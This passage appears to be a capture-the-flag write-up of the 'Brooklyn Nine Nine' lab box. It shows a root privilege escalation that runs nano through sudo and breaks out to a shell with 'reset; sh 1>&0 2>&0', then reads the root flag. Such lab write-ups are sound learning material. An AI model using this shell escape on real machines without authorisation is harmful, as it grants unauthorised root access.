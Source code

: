 lets jump to GTFO-Bins to look if we can use nano for our priv-escalation

### Priv-Escalation 

Found a way on GTFO-Bins for my Priv-Escalation. 

```sh
sudo bin/n***
^R^X
reset; sh 1>&0 2>&0
```

So I execudet the application and run the commands witch GFTO-Bins recommend. 

```sh
Command to execute: reset; sh 1>&0 2>&0# id
```

Now we have root access on the target. 

```sh 
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
``` 

We can now read the root-flag under /root.

```sh
cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 6******************************5
Enjoy!!
```

## Summary

The Box was easy and there was no new stuff in it. It was pretty forward. But i was nice and i had to check my learning on this box. 
